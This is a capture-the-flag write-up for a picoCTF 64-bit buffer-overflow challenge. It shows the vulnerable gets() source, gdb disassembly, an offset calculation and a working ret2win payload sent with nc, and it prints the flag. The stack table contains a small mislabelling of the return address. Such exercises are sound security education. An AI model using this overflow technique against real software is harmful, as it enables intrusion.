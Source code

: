 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/C12B482.png
points: 200
solves: 2473
tags: pwn pwn/buffer-overflow
date: 1337-01-01
comments: false
---
```


Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln). Download [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln.c).  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

First things first, create a `flag.txt` file and enter whatever text you’d like so we can run the program in our local machine.  
`chmod +x vuln` to enable execution  
`gdb vuln` to enter debugger  
`disass vuln`:  
```
Dump of assembler code for function vuln:

   0x00000000004012b2 <+0>:     endbr64 
   0x00000000004012b6 <+4>:     push   %rbp
   0x00000000004012b7 <+5>:     mov    %rsp,%rbp
   0x00000000004012ba <+8>:     sub    $0x40,%rsp
   0x00000000004012be <+12>:    lea    -0x40(%rbp),%rax
   0x00000000004012c2 <+16>:    mov    %rax,%rdi
   0x00000000004012c5 <+19>:    mov    $0x0,%eax
   0x00000000004012ca <+24>:    call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:    nop
   0x00000000004012d0 <+30>:    leave  
   0x00000000004012d1 <+31>:    ret
End of assembler dump.
```

   `0x00000000004012b7 <+5>:     mov    %rsp,%rbp`
This instruction makes it so that `rsp` and `rbp` point to the same address  
   `0x00000000004012ba <+8>:     sub    $0x40,%rsp`  
This instruction creates 0x40, i.e. 64, bytes of space.  

Currently, the stack looks like this:  

|Stack                  |Stack Offset   |
|:----------------------|:--------------|
|Return Address (rdi)   |0x48 - 0x56    |
|Base Pointer (rbp)     |0x40 - 0x48    |
|0x40 bytes of space    |0x0 - 0x40     |
|Stack Pointer (rsp)    |0x0            |

Given that the vuln function utilizes the gets function for input, we know we can perform a buffer overflow attack to overwrite the return address.  

Let’s dynamically confirm where the input is stored on the stack:  

`b *vuln+29` to set a breakpoint right after the call function finishes.  
`r` to run the function  
Enter whatever input you can recognize in hex form.  
`x/100x $rsp` to check the stack  
You should see something like the following in the first few rows:  

    0x7fffa44053b0: 0x61616161      0x61616161      0x00616161      0x00007fc6
    0x7fffa44053c0: 0x6777c780      0x00007fc6      0x675e3765      0x00007fc6
    0x7fffa44053d0: 0x00000000      0x00000000      0xa4405420      0x00007fff

Note that our input (I entered ‘aaaaaaaaaaa’) shows up in the beginning of the stack. Thus, our input is definitely located at `$rsp+0x0`
`disass flag`:  
```
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:     endbr64 
   0x000000000040123a <+4>:     push   %rbp
   0x000000000040123b <+5>:     mov    %rsp,%rbp
   0x000000000040123e <+8>:     sub    $0x50,%rsp
   0x0000000000401242 <+12>:    lea    0xdbf(%rip),%rsi        # 0x402008
   0x0000000000401249 <+19>:    lea    0xdba(%rip),%rdi        # 0x40200a
   0x0000000000401250 <+26>:    call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:    mov    %rax,-0x8(%rbp)
   0x0000000000401259 <+35>:    cmpq   $0x0,-0x8(%rbp)
   0x000000000040125e <+40>:    jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:    lea    0xdac(%rip),%rdx        # 0x402013
   0x0000000000401267 <+49>:    lea    0xdba(%rip),%rsi        # 0x402028
   0x000000000040126e <+56>:    lea    0xde8(%rip),%rdi        # 0x40205d
   0x0000000000401275 <+63>:    mov    $0x0,%eax
   0x000000000040127a <+68>:    call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:    mov    $0x0,%edi
   0x0000000000401284 <+78>:    call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:    mov    -0x8(%rbp),%rdx
   0x000000000040128d <+87>:    lea    -0x50(%rbp),%rax
   0x0000000000401291 <+91>:    mov    $0x40,%esi
   0x0000000000401296 <+96>:    mov    %rax,%rdi
   0x0000000000401299 <+99>:    call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:   lea    -0x50(%rbp),%rax
   0x00000000004012a2 <+108>:   mov    %rax,%rdi
   0x00000000004012a5 <+111>:   mov    $0x0,%eax
   0x00000000004012aa <+116>:   call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:   nop
   0x00000000004012b0 <+122>:   leave  
   0x00000000004012b1 <+123>:   ret    
End of assembler dump.
```

The important thing here is the address of the flag function, `0x0000000000401236`.  
We need to overwrite the return address, which is located at offset `$rsp+0x48`. (This is because there is 0x40 bytes of space between the stack pointer and base pointer and the base pointer itself is 0x8 bytes since this is x64).  
We can send a hex-encoded input to ./vuln to do this.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x36\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

The first command writes 72 ‘a’ characters to the file input for the buffer, i.e. to get to offset 0x48.  
The second part writes the hex values of the flag function address, which we cannot easily write in ascii. Note that the bytes are written in reverse order because of little endianness.  

Run ./vuln < input, which should return the contents of your `flag.txt` file.  

---

If you instead received a segmentation fault without the flag, check the second hint of the problem, which states: Jump to the second instruction (the one after the first push) in the `flag` function, if you're getting mysterious segmentation faults.  

To fix this, we need to jump to the instruction right after the first push in the `flag` function:  
`0x000000000040123b <+5>:     mov    %rsp,%rbp`  

This has address `0x000000000040123b`, so we we only need to slightly modify our commands:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x3b\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

Now you should get your `flag.txt` file contents.  

---

Once you receive your `flag.txt` file contents, the challenge is done!  
Run `nc -q 2 saturn.picoctf.net [port #] < input`, which will return your flag.  
Note that `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{b1663r_15_b3773r_d95e02b6}
